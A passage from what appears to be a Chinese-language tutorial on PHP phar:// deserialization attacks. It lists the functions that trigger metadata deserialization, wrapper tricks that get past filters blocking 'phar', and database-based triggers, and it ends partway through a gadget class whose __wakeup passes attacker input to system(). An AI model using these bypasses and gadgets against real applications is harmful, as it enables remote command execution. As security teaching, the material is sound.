 > 
可以很明显看到manifest是以序列化形式存储的


> 
有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化<br/> 受影响的函数如下，[参考链接](https://blog.zsxsoft.com/post/38)


```
//exif
exif_thumbnail
exif_imagetype
    
//gd
imageloadfont
imagecreatefrom***系列函数
    
//hash
    
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
    
// file/url
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip-&gt;open('c.zip');
$zip-&gt;extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
&lt;?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo-&gt;pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?&gt;
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
&lt;?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this-&gt;s);
```